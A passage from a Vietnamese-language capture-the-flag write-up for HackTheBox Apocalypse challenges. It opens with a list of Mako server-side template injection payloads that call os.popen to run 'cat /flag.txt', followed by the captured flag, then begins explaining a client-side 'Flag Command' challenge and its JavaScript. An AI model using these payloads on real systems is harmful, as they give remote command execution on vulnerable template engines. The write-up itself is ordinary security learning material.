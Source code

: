 ```
${self.template._mmarker.module.runtime.exceptions.util.os.popen("cat /flag.txt").read()}
${self.template.module.filters.compat.inspect.linecache.os.popen("cat /flag.txt").read()}
${self.template.module.runtime.compat.inspect.linecache.os.popen("cat /flag.txt").read()}
${self.attr._NSAttr__parent.template.module.runtime.util.os.popen("cat /flag.txt").read()}
${self.context._with_template._mmarker.module.cache.util.os.popen("cat /flag.txt").read()}
${self.template.module.runtime.exceptions.compat.inspect.os.popen("cat /flag.txt").read()}
${self.attr._NSAttr__parent.module.filters.compat.inspect.os.popen("cat /flag.txt").read()}
${self.attr._NSAttr__parent.module.runtime.compat.inspect.os.popen("cat /flag.txt").read()}
${self.context._with_template.module.cache.compat.inspect.os.popen("cat /flag.txt").read()}
${self.module.runtime.exceptions.compat.inspect.linecache.os.popen("cat /flag.txt").read()}
${self.attr._NSAttr__parent.module.runtime.exceptions.util.os.popen("cat /flag.txt").read()}
${self.context._with_template._mmarker.module.runtime.util.os.popen("cat /flag.txt").read()}
${self.context._with_template.module.filters.compat.inspect.os.popen("cat /flag.txt").read()}
${self.context._with_template.module.runtime.compat.inspect.os.popen("cat /flag.txt").read()}
${self.context._with_template.module.runtime.exceptions.util.os.popen("cat /flag.txt").read()}
${self.template.module.runtime.exceptions.traceback.linecache.os.popen("cat /flag.txt").read()}
```


Ngoài ra cũng có thể dùng `.open()` thay cho ``read()``.

![image](https://hackmd.io/_uploads/ryYD02RJR.png)


Flag : `HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!}`




## Flag Command

- Đây là một bài view client source trong giải htb apocalypse nên cũng khá là đơn giản
- Giao diên dưới đây:
![image](https://hackmd.io/_uploads/ryE0eODSC.png)

- Như ta có thể thấy có một chức năng để gõ command-> gọi js từ main.js

```
<script type="module">
    import { startCommander, enterKey, userTextInput } from "/static/terminal/js/main.js";
    startCommander();

    window.addEventListener("keyup", enterKey);

    // event listener for clicking on the terminal
    document.addEventListener("click", function () {
      userTextInput.focus();
    });


  </script>
```

![image](https://hackmd.io/_uploads/rkWRWOwr0.png)
